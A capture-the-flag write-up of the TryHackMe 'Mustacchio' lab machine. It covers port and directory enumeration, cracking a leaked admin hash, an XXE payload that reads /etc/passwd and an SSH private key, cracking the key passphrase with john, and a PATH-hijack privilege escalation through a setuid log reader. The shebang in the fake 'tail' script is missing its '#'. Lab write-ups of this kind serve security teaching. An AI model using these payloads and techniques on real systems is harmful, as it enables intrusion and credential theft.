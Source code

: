 ```yaml
---
title: "Mustacchio"
date: 2025-01-22
image: /assets/img/tryhackme/Mustacchio/Mustacchio_image.jpg
description: Writeup of the TryHackMe-CTF Mustacchio
categories: [Tryhackme, Easy]
tags: [linux, enumeration, revshell, web, privesc, xxe]
---
```


## Challenge Description
<center>
<table>
  <tr>
    <td>Plattform</td>
    <td>TryHackMe</td>
  </tr>
  <tr>
    <td>Name</td>
    <td>Mustacchio</td>
  </tr>
  <tr>
    <td>Description</td>
    <td>Easy boot2root Machine</td>
  </tr>
  <tr>
    <td>Difficulty</td>
    <td>Easy</td>
  </tr>
  <tr>
    <td>OS</td>
    <td>Linux</td>
  </tr>
  <tr>
    <td>Link</td>
    <td><a href="https://tryhackme.com/r/room/mustacchio">https://tryhackme.com/r/room/mustacchio</a></td>
  </tr>
</table>
</center>

This writeup is a possible solution of the CTF-challenge Mustacchio.  

## Enumeration
I started the enumeration using `nmap`:
```bash
$ nmap -p- 10.10.114.250
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-01-22 05:42 EST
Nmap scan report for 10.10.114.250
Host is up (0.037s latency).
Not shown: 65532 filtered tcp ports (no-response)
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
8765/tcp open  ultraseek-http

Nmap done: 1 IP address (1 host up) scanned in 118.78 seconds
```
and enumerated the services nmap found in more depth using the `-A` flag:
```bash
$ nmap -A -p 22,80,8765 10.10.114.250
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-01-22 05:45 EST
Nmap scan report for 10.10.114.250
Host is up (0.036s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 58:1b:0c:0f:fa:cf:05:be:4c:c0:7a:f1:f1:88:61:1c (RSA)
|   256 3c:fc:e8:a3:7e:03:9a:30:2c:77:e0:0a:1c:e4:52:e6 (ECDSA)
|_  256 9d:59:c6:c7:79:c5:54:c4:1d:aa:e4:d1:84:71:01:92 (ED25519)
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Mustacchio | Home
|_http-server-header: Apache/2.4.18 (Ubuntu)
| http-robots.txt: 1 disallowed entry
|_/
8765/tcp open  http    nginx 1.10.3 (Ubuntu)
|_http-server-header: nginx/1.10.3 (Ubuntu)
|_http-title: Mustacchio | Login
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 16.56 seconds
```
from here I analyzed the services one after another.

## HTTP Analysis
As we can see in the nmap output there is a robots.txt file, but didn't reveal anything useful. Therfore I started a `gobuster` directory enumeration:
```bash
$ gobuster dir --url http://10.10.114.250/ --wordlist /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -x html,php,bak,txt,sh
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.114.250/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              html,php,bak,txt,sh
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.html                (Status: 403) [Size: 278]
/.php                 (Status: 403) [Size: 278]
/index.html           (Status: 200) [Size: 1752]
/images               (Status: 301) [Size: 315] [--> http://10.10.114.250/images/]
/contact.html         (Status: 200) [Size: 1450]
/about.html           (Status: 200) [Size: 3152]
/blog.html            (Status: 200) [Size: 3172]
/gallery.html         (Status: 200) [Size: 1950]
/custom               (Status: 301) [Size: 315] [--> http://10.10.114.250/custom/]
/robots.txt           (Status: 200) [Size: 28]
/fonts                (Status: 301) [Size: 314] [--> http://10.10.114.250/fonts/]
```
While gobuster was running I performed some manual enumeration but didn't found anything interesting. Therefore I waited for the scan and started analyzing the results.
### /custom directory

The directoy had file browsing available so I found the file `/custom/js/user.bak`. I downloaded it and see what we get from it:
```bash
$ file user.bak
users.bak: SQLite 3.x database, last written using SQLite version 3034001, file counter 2, database pages 2, cookie 0x1, schema 4, UTF-8, version-valid-for 2
```
With `SQLiteBrowser` I was able to check the entries in the database. I found just one table called `users` with one entry. The entry provided the username admin and a hash value. I tried to get more information about this hash value:
```bash
$ hashid 1868e36a6d2b17d4c2745f1659433a54d4bc5f4b
Analyzing '1868e36a6d2b17d4c2745f1659433a54d4bc5f4b'
[+] SHA-1
[+] Double SHA-1
[+] RIPEMD-160
[+] Haval-160
[+] Tiger-160
[+] HAS-160
[+] LinkedIn
[+] Skein-256(160)
[+] Skein-512(160)
```
SHA1 hashes can be found in the <a href="https://crackstation.net/">CrackStation</a> database, so I gave it try: 
![CrackStaion result](/assets/img/tryhackme/Mustacchio/thm_mustacchio_1.jpg){: width="1014" height="86" .w-75}

The other directories didn't provide anything useful so I moved on.

## Port 8765 Analysis
The server provided another website with a login form under port 8765. 
![Admin Login](/assets/img/tryhackme/Mustacchio/thm_mustacchio_2.jpg){: width="332" height="350" .w-75}

I tried the credentials for the user admin I got in the previous step and was able to login. Always start with source code analysis, which reveal me the following comment:
```html
<!-- Barry, you can now SSH in using your key!-->
```

The website had a textfeld and a headline which said `"Add a comment on the website."`. After some tests I got the following error message:
![XML Comment Textfield](/assets/img/tryhackme/Mustacchio/thm_mustacchio_3.jpg){: width="581" height="493" .w-75 }

XML always sounds like XXE so I tried the following payload...
```text
<!DOCTYPE people[
   <!ENTITY thmFile SYSTEM "file:///etc/passwd">
]>
<people>
   <name>&thmFile;</name>
   <author></author>
   <comment>glitch@wareville.com</comment>
</people>
```
... and had success:
![XML Comment Textfield](/assets/img/tryhackme/Mustacchio/thm_mustacchio_4.jpg){: width="2578" height="787" .w-75}

With the comment about Barry's ssh key could be found somewhere I tried to look for it:
![XML Comment Textfield](/assets/img/tryhackme/Mustacchio/thm_mustacchio_5.jpg){: width="2578" height="787" .w-75}

That must be Barry's ssh key so I downloaded it and prepared it to use it. First extract the hash using `ssh2john` to crack the password we need for the connection:
```bash
$ ssh2john id_rsa > hashes
$ john --wordlist=/usr/share/wordlists/rockyou.txt hashes
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
[removed]       (id_rsa)
1g 0:00:00:00 DONE (2025-01-22 05:58) 2.127g/s 6320Kp/s 6320Kc/s 6320KC/s urieljr.k..urielandrea
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```
Now where I had the password I was able to connect via ssh and read the user flag:

```bash
$ chmod 600 id_rsa
$ ssh -i id_rsa barry@10.10.114.250
barry@mustacchio:~$ hostname
mustacchio
barry@mustacchio:~$ cat user.txt
[*** removed ***]
```
## Privilege Esclation
While searching a way to escalate my privileges I found an intersting binary:
```bash
barry@mustacchio:/home/joe$ ls
live_log
barry@mustacchio:/home/joe$ file live_log
live_log: setuid ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=6c03a68094c63347aeb02281a45518964ad12abe, for GNU/Linux 3.2.0, not stripped
```

The file `live_log` just prints out the current webserver `access.log`. With the commandline utility `strings` I was able to get more insights:
```bash
barry@mustacchio:/home/joe$ strings live_log
[*** removed for readability ***]
Live Nginx Log Reader
tail -f /var/log/nginx/access.log
[*** removed for readability ***]
```
Intersting is that `tail` didn't use an absolute path what we can missuse. I created a file called `tail` in barrys home directory (`/home/barry`) and inserted the following code:
```python
!/usr/bin/python3
import pty
pty.spawn("/bin/bash")
```
Making the new `tail` an executable, modify our path variable and finally execute the `live_log` gave me root access: 

```bash
barry@mustacchio:~$ chmod +x tail
barry@mustacchio:~$ export PATH=$PWD:$PATH
barry@mustacchio:~$ ../joe/live_log
root@mustacchio:~# whoami
root
root@mustacchio:~# cd /root
root@mustacchio:/root# cat root.txt
[*** removed ***]
```

solved! :)
